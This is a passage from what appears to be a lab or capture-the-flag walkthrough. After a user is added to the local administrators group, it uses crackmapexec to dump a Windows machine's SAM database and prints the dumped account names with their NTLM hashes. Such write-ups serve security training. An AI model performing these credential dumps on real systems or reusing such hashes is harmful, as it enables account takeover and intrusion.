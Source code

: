 > Wait a while, and check it again
> 1 new group in it


![](./IMG/57.png)

> Now back to my kali
> Since maya is Administradores's group now 
> Using crackmapexec to get other credetnial from sam 


```
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e349e2966c623fcb0a254e866a9a7e4c:::
localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
maya:1002:aad3b435b51404eeaad3b435b51404ee:af760798079bf7a3d80253126d3d28af:::
```

![](./IMG/58.png)
